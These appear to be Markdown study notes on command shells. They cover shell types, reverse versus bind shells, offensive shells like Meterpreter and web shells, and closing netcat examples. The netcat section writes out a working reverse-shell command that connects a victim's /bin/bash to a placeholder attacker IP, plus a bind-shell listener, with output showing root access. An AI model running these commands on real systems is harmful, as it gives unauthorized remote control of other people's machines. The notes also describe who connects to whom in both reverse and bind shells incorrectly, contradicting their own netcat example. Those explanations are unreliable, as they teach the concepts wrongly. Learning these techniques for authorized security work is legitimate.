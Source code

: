 ### Shell Definition
a shell refers to a command-line interface (CLI) that provides users with a way to interact with an operating system (OS) or execute commands directly. It serves as an intermediary between the user and the operating system, allowing users to control and manage various aspects of the system through text-based commands.

When a user enters a command in a shell, it interprets the command and communicates with the operating system to execute the requested action or task. The shell then displays the output of the command or any error messages on the command-line interface.

Shells can be found on various operating systems, including Linux, macOS, Unix, and even Windows (Command Prompt and PowerShell). Each operating system typically comes with its own default shell. For example, Linux and Unix systems often use the Bash (Bourne Again SHell) as the default shell, while macOS uses Bash or Zsh (Z Shell).

1. **Command Execution:** Users can execute commands to perform tasks like file manipulation, process management, system configuration, and more.
2. **Scripting:** Shells support scripting, allowing users to create shell scripts (collections of commands) to automate repetitive tasks or perform complex operations.
3. **Input/Output Redirection:** Users can redirect command input and output, allowing them to read from files or write command output to files.
4. **Variables and Environment:** Shells support variables, allowing users to store and manipulate data. Users can also set and modify environment variables that affect the behavior of commands and programs.
5. **Command Line Editing:** Shells often provide command line editing capabilities, including history recall, command line navigation, and editing commands before execution.
6. **Job Control:** Users can manage processes and jobs in the background, pause and resume processes, and manage process priorities.

### Types of Shells
1. **Bash (Bourne Again SHell):** Bash is one of the most popular and widely used shells. It is the default shell for many Linux distributions and macOS. Bash is known for its rich feature set, support for command line editing, and robust scripting capabilities.
2. **Zsh (Z Shell):** Zsh is an extended and more customizable shell that offers additional features compared to Bash. It provides advanced tab-completion, improved spelling correction, and support for themes and plugins. Zsh is highly popular among power users and developers.
3. **Dash:** Dash is a minimalistic shell designed for efficiency and speed. It is often used as the default system shell on some Unix-like systems due to its small size and quick startup time.
4. **Ksh (Korn Shell):** Korn Shell is a powerful shell that is compatible with both the Bourne Shell (sh) and Bash. It includes features from both shells and is commonly used on Unix systems.
5. **Csh (C Shell):** C Shell is known for its C-like syntax and command line editing capabilities. It provides interactive features like command history and aliases. However, it is less popular for scripting due to its complex syntax.
6. **Tcsh (TENEX C Shell):** Tcsh is an improved version of C Shell, adding more features and capabilities. It includes better command line editing, programmable completion, and job control.
7. **Fish (Friendly Interactive SHell):** Fish is designed to be user-friendly and easy to use, particularly for interactive use. It features syntax highlighting, smart auto-completion, and an extensive set of built-in commands.
8. **PowerShell:** PowerShell is a shell and scripting language developed by Microsoft primarily for Windows systems. It provides extensive support for managing Windows environments, including system administration and automation.
9. **Ash (Almquist Shell):** Ash is a lightweight shell designed for embedded systems or environments with limited resources. It is commonly used in some Unix-based systems as the default system shell.
10. **rc (Runcom):** Rc is a simple and lightweight shell known for its clean syntax. It is often used in Plan 9 from Bell Labs and some Unix-like systems.

### Reverse Shell VS Bind Shell
Reverse shell and bind shell are two different methods used in the context of remote access and control between two systems, particularly in the field of cybersecurity and ethical hacking. Both methods involve establishing a connection between a client and a server, but they differ in the direction of the connection initiation and the level of control over the communication.

**Reverse Shell:** In a reverse shell scenario, the client (attacker-controlled machine) connects to the server (victim machine). The client initiates the connection to the server, which is typically behind a firewall or on a restricted network. This connection allows the attacker to gain access to a command-line interface or shell on the victim machine.

1. The attacker runs a payload (usually a malicious script or program) on the victim machine.
2. The payload establishes a connection to the attacker's machine, where a listening service (e.g., netcat) is waiting to receive the connection.
3. Once the connection is established, the attacker gains control of the victim's command-line interface. They can execute commands, transfer files, and perform various actions on the victim machine as if they were physically present on it.

![[Reverse Shell.jpg]]
Reverse shells are commonly used in scenarios where the victim's machine is behind a firewall or is protected by network security measures that prevent incoming connections. By initiating the connection from the victim, the attacker can bypass these restrictions.

**Bind Shell:** In a bind shell scenario, the server (attacker-controlled machine) creates a listening service on a specific port. The client (victim machine) connects to this service, allowing the attacker to gain access and control over the victim machine.

1. The attacker runs a payload on their machine, setting up a listening service on a specific port.
2. The attacker tricks the victim into running a script or program on their machine that connects to the attacker's machine on the specified port.
3. Once the connection is established, the attacker gains control of the victim's command-line interface and can execute commands, transfer files, and manipulate the victim machine.

![[Bind Shell.jpg]]
Bind shells are typically used when the victim's machine is not behind a restrictive firewall, allowing incoming connections. The attacker can set up the listening service on a known port, and the victim's machine connects to it, establishing the shell.

In summary, the main difference between a reverse shell and a bind shell is the direction of the connection initiation: in a reverse shell, the attacker initiates the connection from the victim machine to the attacker's machine, while in a bind shell, the attacker sets up a listening service and waits for the victim machine to connect to it. Both methods serve as powerful tools for remote access and control in cybersecurity contexts. However, it's crucial to note that using these techniques without proper authorization is illegal and considered unethical.

### Other Types of Security Shells
1. **Non-Interactive Shell:** A non-interactive shell is a type of shell that does not provide an interactive command-line interface. Instead, it executes a single command or script and then terminates. Non-interactive shells are commonly used in scripting and automation.
2. **Meterpreter Shell:** Meterpreter is a powerful post-exploitation shell used with the Metasploit Framework. It is specifically designed for compromising and maintaining access to target systems after exploitation. Meterpreter shells provide a wide range of capabilities, including file system access, privilege escalation, and more.
3. **Web Shell:** A web shell is a shell that is accessed and executed through a web-based interface. Web shells are often used in web application hacking, where attackers upload malicious scripts to web servers to gain unauthorized access and control over the web server and its resources.
4. **Distributed Shell (dsh):** Distributed shell is a type of shell that allows the execution of commands on multiple remote hosts simultaneously. It is commonly used in managing large clusters of servers or systems in parallel.
5. **Multihandler:** A multihandler is a component in various penetration testing frameworks (e.g., Metasploit) that listens for incoming reverse shell connections and handles multiple connections simultaneously.
6. **Covert Shell:** A covert shell is a type of shell that aims to be stealthy and undetectable. It often disguises its network traffic to evade detection by security tools and administrators.
7. **Encrypted Shell:** An encrypted shell secures the communication between the client and server using encryption methods. This helps protect the communication from interception and eavesdropping.
8. **Staged Shell:** A staged shell is a type of shellcode that is delivered to a target system in multiple stages. It allows attackers to bypass certain security measures and execute the payload in a more controlled manner.

### Setup Shells Using Netcat
#### Reverse Shell
**Hacker Machine**
```bash
$ nc -nvlp 4444
listening on [any] 4444 ...
```
**Victim Machine**
```bash
$ nc <Hacker_IP> 4444 -e /bin/bash
```
**Return to Hacker Machine**
```bash
listening on [any] 4444 ...
connect to <Hacker_IP> from (Unknown) <Victim_IP> 35744

whoami
root
hostname
kali
```

#### Bind Shell
**Victim Machine**
```bash
$ nc -nvlp 4444 -e /bin/bash
listening on [any] 4444 ...
```
**Hacker Machine**
```bash
$ nc <Victim_IP> 4444

whoami
root
hostname
kali
```



